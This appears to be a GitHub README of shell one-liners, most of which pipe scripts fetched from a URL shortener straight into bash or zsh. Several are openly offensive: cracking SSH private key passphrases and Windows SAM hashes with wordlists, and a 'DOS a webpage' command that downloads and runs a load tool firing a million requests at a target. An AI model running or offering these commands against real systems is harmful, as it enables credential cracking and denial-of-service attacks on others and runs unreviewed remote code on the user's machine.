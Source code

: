 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/service_templated)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

* [Crack sam_hashes](https://shortly.fun/cracksam)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | zsh -s <absolute-path-to-hashes> <absolute-path-to-wordlist>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | bash -s <absolute-path-to-hashes> <absolute-path-to-wordlist>
```

## License

This project is licensed under the GPL-3 license.
